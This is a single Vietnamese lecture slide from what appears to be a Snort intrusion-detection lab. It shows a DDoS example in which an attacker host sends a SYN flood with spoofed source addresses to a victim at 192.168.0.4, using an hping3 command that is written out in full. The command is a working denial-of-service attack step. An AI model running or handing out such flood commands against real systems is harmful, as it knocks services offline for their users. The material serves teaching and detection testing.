

29
II.3.3 Ví dụ DDOS
Máy tấn công:
IP: 192.168.0.6
Máy bị tấn công:
IP: 192.168.0.4
Có cài đặt Snort
Trên máy tấn công (192.168.0.6) ta chạy lệnh:
hping3 -S -p 80 –flood –rand-source 192.168.0.4
Thông số quan trọng:
-p: số hiệu cổng
192.168.0.4: địa chỉ ip của mục tiêu